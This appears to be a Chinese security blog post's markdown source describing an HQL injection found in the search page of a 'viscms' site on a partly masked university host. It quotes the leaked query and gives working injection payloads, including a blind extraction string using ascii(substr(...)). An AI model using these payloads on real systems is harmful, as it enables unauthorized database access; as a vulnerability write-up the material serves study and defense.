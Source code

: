 ```yaml
---
layout: post
title: 记一次viscms的SQL挖掘
date: 2017-09-27
categories: SQL
---
```


### 记一次viscms的SQL挖掘

嘛，其实也不是什么事儿，在找高校的漏洞的时候发现存在这么一个鸡肋的漏洞。链接是这样的。

	http://cms.***.edu.cn:8080/viscms/search.jspx?q=1&siteId=127060&submit=
	
这是一个查找搜索返回结果的界面。参数`q`是查询的内容，siteid是实用的网页模板。经过测试，q存在注入，而且会返回apache的错误界面。

![1](/images/posts/viscms/1.png)

其中爆出了SQL原句

	select count( bean.id ) from com.viscms.cms.entity.main.Content bean left join bean.contentTxtSet contentTxt  where 1=1 and (bean.contentExt.title like '%admin'--%' or contentTxt.txt like '%admin'--%' or bean.contentExt.keyword like '%admin'--%') and bean.site.id=127060
	
所以我们得知SQL是这样写的，也知道了这是一个HQL查询。不正确的使用ORM，依旧会存在注入。这里就是一个例子。

因为是HQL所以`--`在oracle中的注释效果没有了。导致了报错，报错又给了我们SQL语句，算是一个惊喜。

绕过方法是
	
	1' or 1 like '1
	会拼接为
	bean.contentExt.title like '%1' or 1 like '1%' or contentTxt.txt
	
所以我们可插入的执行语句在or之前。
因为or只会执行一句，而这里还有原句的SQL，所以我们改为and确保我们的语句能执行。最后验证漏洞的payload为

	1' and ascii(substr('sql',1,1))>3 and 1 like '1

`sql`中可以写要查询的对象的属性，就可以爆破出来。但是鸡肋的地方在于，似乎没办法在原句中插入一个新的对象，不然可以遍历数据库中所有的信息。而现在只能遍历原句中已有的数据。

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [记一次viscms的SQL挖掘](http://RoyTse.github.io/2017/09/记一次viscms的SQL挖掘/)  